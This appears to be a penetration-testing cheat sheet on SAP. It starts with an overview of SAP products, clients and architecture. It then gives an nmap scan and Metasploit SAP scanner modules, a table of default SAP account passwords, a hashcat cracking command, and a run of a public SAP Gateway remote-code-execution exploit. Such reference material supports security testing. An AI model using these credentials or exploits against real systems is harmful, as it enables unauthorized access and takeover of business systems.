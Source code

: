### 1 - Introduction:

SAP stands for **Systems, Applications, and Products in Data Processing** and distributes ERP (Enterprise Resource Planning) software which allows to manage the activity of large and small companies. ERP stands for Enterprise Resource Planning and is a business process management system that automates and integrates all of an organization's core business processes into a shared database to streamline processes and information across the organization.

#### SAP Provides 5 ERP: 

- **SAP ERP (SAP)**: This is the classic suite that can be deployed on site, on a public IaaS or in a private cloud. SAP also offers companies to migrate SAP ERP to a PaaS by converting it to S/4HANA.
- **S/4HANA**: S/4HANA is the **new generation** of ERP from SAP. Used primarily by medium and large companies with annual revenues of at least $250 million.
- **S/4HANA Cloud**: This is the SaaS version of S/4HANA.
- **SAP Business One**: SAP Business One is SAP's ERP suite for **small and medium-sized enterprises** (SME). This suite is designed for companies with up to 350 employees.
- **SAP Business ByDesign**: this is the SaaS version of SAP and allows to do financial management, including CRM, HRIS/HCM and more...


#### Systems covered by SAP include:

- Enterprise Resource Planning (ERP) - supports the basic internal business processes of a company
- Customer Relationship Management (CRM) – helps companies acquire and retain customers, gain marketing and customer insight
- Product Lifecycle Management (PLM) – helps manufacturers with product-related information
- Supply Chain Management (SCM) – helps companies with the process of resourcing its manufacturing and service processes
- Supplier Relationship Management (SRM) – enables companies to procure from suppliers


#### SAP Specific terms:

##### What is a CLIENT ?

The SAP client concept allows an organization to split a system into logical subunits and they contains independent information and data. The number of clients in a SAP system directly influences the following:

- **Buffer**: The number of clients impacts buffering demand. An example is main memory usage.
- **Upgrade**: Different activities are affected by SAP upgrades, where run timers are longer, depending on the number of clients.

*SAP Client Roles:*
- **Client CUST**: Used for making developments and serving other customer-specific requirements. The SAP transport management system is used to move CUST client changes to other clients.
- **Client QST**: Defined for testing and verifying various applied changes.
- **Client PRD**: Used for production and business activities.

*Known Clients:*
- **000** : this client is called as golden client which is provided by SAP as refrence client.
- **001** : this client is called as configuration client which have all the SAP standard customizing client.
- **066** : is the earlywatch client for SAP use.

Architecture based on SAP:

![image](https://user-images.githubusercontent.com/75935486/153075669-6a7c6b54-b522-44c2-8605-f4761f84ebe5.png)

 The **Internet Communication Manager** (ICM) sets up the connection to the Internet and process both server and client Web requests and the Central services (message server and enqueue server) is used for lock administration, message exchange and load balancing in the SAP system.
 
 **AS ABAP components:**
 - The dispatcher: distributes the requests to the work processes.
 - The work processes: executes ABAP or Java programs.
 - The SAP Gateway: provides the RFC interface between the SAP instances.
 
 **AS Java components:**
 - The Server Processes: execute Java requests.
 - The instance controller: controls and monitors the life cycle of the AS Java instance.

### 2 - Discovery:

Port Scanning
```python
nmap -sCV -T3 --min-rate=3000 -p 1128,3201,3299,3301,3901,4901,4902,4903,8101,30101,30102,30103,30104,30107,30108,30111,30116,40000,40001,40002,40080,46287,50000,50001,50004,50007,50013,50014,50020,50113,50114 127.0.0.1
```

useful metasploit scanners:
- `msf > use auxiliary/scanner/sap/sap_service_discovery`
- `msf > use auxiliary/scanner/sap/sap_router_info_request`
- `msf > use auxiliary/scanner/sap/sap_router_portscanner`


#### Proxying SAPRouter:
```bash
set proxies sapni:<network-ip>:3299
```

### 3 - Password Stealing & Hash Cracking:

###### Default Credentials:

User ID | Description | Clients | Password |
--- | --- | --- | --- |
SAP* | Super user | 000,001, 066 new clients | 06071992, PASS
DDIC | ABAP Dictionary super user | 000,001 | 19920706 
EarlyWatch | User for the EarlyWatch Service | 066 | SUPPORT
SAPCPIC | Communication User | 000,001 | ADMIN 

###### Cracking hashes:

![image](https://user-images.githubusercontent.com/75935486/153094382-443663fc-52d1-4ad8-ab4b-48723ce661f6.png)

*example*: Cracking ***SAP CODVN B (BCODE)** hash `TESTUSER1$D1FD06BD3B0744D9` using hashcat:
```bash
hashcat -m 7700 hash -a 0 /usr/share/wordlists/rockyou.txt  --force
```
![image](https://user-images.githubusercontent.com/75935486/153094640-3f9a9408-3e1e-41ff-9cbe-03923d898818.png)


### 4 - Code Execution:

> https://github.com/chipik/SAP_GW_RCE_exploit

```bash
➜python SAPanonGWv1.py -t 172.16.30.28 -p 3300 -c whoami
[*] sending cmd:whoami
RistBS
```
